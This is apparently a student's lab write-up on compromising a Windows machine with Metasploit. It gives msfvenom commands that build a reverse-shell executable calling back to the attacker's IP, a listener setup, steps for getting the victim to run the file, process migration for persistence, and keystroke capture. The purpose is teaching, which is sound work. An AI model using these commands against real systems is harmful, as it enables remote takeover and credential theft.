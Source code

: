 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### NAME:SANJAY ASHWIN P
### REG NO:212223040181
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 31 18_5f9d2595](https://github.com/user-attachments/assets/a10d10df-1055-4c9e-b4e8-2cff6b62fdd7)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 43 49_799464eb](https://github.com/user-attachments/assets/b9dc914f-6c12-434d-a4ab-9263af9ef852)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 47 07_c6e7043b](https://github.com/user-attachments/assets/562aa67f-8d76-41f0-8add-8fb8cc2cf68a)


Start apache server
sudo systemctl apache2 start
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 49 53_b962cf8d](https://github.com/user-attachments/assets/4dd21c44-bf67-47b4-a8f2-90699d018eeb)

Check the status of apache2
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 50 49_8e5f64c2](https://github.com/user-attachments/assets/49764b81-d94c-4ea1-abc4-8c91bb8bb906)

Invoke msfconsole:
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 56 44_14e8711a](https://github.com/user-attachments/assets/2207bcbb-ee1e-4c2a-a4d9-8f44fd5d48be)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![WhatsApp Image 2024-11-01 at 17 57 24_7438089c](https://github.com/user-attachments/assets/35e68da2-d561-49ec-9f6f-ca9ea8a49997)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![WhatsApp Image 2024-11-01 at 18 01 15_ea1edaed](https://github.com/user-attachments/assets/cdb145a9-a1d0-4f24-8605-5e76d7689d44)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![Screenshot 2024-11-02 120923](https://github.com/user-attachments/assets/34e93f53-1d09-4a9a-8127-26a3773fcfe7)


Bypass any warning boxes, double-click the file, and allow it to run.   
![image](https://github.com/user-attachments/assets/c084de3e-1d8c-42a7-9be9-6a48edba279b)

On kali give the command exploit

![WhatsApp Image 2024-11-01 at 18 12 04_448ad010](https://github.com/user-attachments/assets/01044599-fd74-433d-ba7a-a96a45e2b164)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![WhatsApp Image 2024-11-01 at 18 12 46_ee3b1ab9](https://github.com/user-attachments/assets/0362e76b-955b-46e4-a561-584b86e29192)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/user-attachments/assets/4341677e-a58c-483f-af17-c58e6b61c58b)


Post Exploitation
keyscan_dump	Shows the keystrokes captured so far

![WhatsApp Image 2024-11-01 at 18 15 09_3e278d2d](https://github.com/user-attachments/assets/5ba20273-6a12-499d-8338-c0b183df5d62)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
